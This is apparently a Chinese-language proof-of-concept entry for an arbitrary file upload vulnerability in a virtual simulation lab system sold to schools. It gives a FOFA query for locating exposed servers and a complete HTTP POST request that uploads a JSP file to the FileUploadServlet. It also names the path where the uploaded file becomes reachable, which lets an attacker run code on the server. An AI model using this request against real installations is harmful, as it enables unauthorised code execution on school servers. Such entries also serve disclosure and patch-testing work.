


# 一、漏洞简介
北京润尼尔科技股份有限公司（原北京润尼尔网络科技有限公司，以下简称“润尼尔或公司”）于2007年12月成立，实缴注册资本2483万，是一家在北京石景山区注册的国家高新技术企业、北京市专精特新企业，四届蝉联 “中国VR50强企业”。目前在武汉、西安、上海、成都、合肥、哈尔滨等地设立了分支机构。公司以虚拟仿真技术和网络技术为依托，面向各类学校提供集虚拟仿真教学资源、管理平台和虚拟现实设备为一体的“VR+教育”整体解决方案，旨在提高学生的实践动手能力，助力学校提高人才培养质量。北京润尼尔科技股份有限公司虚拟仿真实验室系统FileUploadServlet存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 北京润尼尔科技股份有限公司虚拟仿真实验室系统

# 三、资产测绘
+ fofa`body="virexp/s"`
+ 特征：


# 四、漏洞复现
```java
POST /chatroom/FileUploadServlet HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=D608C8AF5AC63FB5DA57B858CFC42B42
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGIc4ig8R
Content-Length: 153

------WebKitFormBoundaryGIc4ig8R
Content-Disposition: form-data; name="aaa"; filename="1234.jsp"

<% out.println("testqqww"); %>
------WebKitFormBoundaryGIc4ig8R--

```



上传文件位置

```java
/chatroom/uploadFile/1234.jsp
```



